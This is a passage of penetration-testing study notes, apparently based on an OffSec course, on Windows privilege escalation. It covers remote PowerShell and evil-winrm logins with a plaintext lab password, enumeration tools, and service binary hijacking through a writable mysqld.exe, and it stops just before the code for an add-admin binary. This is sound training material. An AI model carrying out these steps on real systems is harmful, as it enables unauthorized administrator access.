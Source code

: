 Spawn a Powershell session with credentials:
```shell
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

Or access with `evil-winrm`:
`evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"`

#### Automated Enumeration
**[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)**
**[SharpUp](https://github.com/GhostPack/SharpUp)**
**[Seatbelt](https://github.com/GhostPack/Seatbelt)**

#### Binary Hijacking

To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in _services.msc_, the _Get-Service_ Cmdlet, or the _Get-CimInstance_ Cmdlet (superseding _Get-WmiObject_).
```shell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
```

Based on the output in Listing 40, the two XAMPP services _Apache2.4_ and _mysql_ stand out as the binaries are located in the `C:\xampp\` directory instead of `C:\Windows\System32\`. This means the service is user-installed and the software developer is in charge of the directory structure as well as permissions of the software. These circumstances make it potentially prone to service binary hijacking. Next, let's enumerate the permissions on both service binaries. We can choose between the traditional _icacls_ Windows utility or the PowerShell Cmdlet _Get-ACL.

```shell
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)
```

The output of shows that members of the _Users_ group have the Full Access (F) permission, allowing us to write to and modify the binary and therefore, replace it. Due to the missing indicator _(I)_ preceding this permission, we know that it was set on purpose and not inherited by the parent directory. Administrators often set Full Access permissions when they configure a service and are not entirely sure about the required permissions. Setting it to Full Access avoids most permission problems, but creates a security risk as we'll show in this example.

Let's create a small binary on Kali, which we'll use to replace the original **mysqld.exe**. The following C code will create a user named _dave2_ and add that user to the local Administrators group using the _system_[5](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/leveraging-windows-services/service-binary-hijacking#fn5) function. The cross-compiled version of this code will serve as our malicious binary. Let's save it on Kali in a file named **adduser.c**.

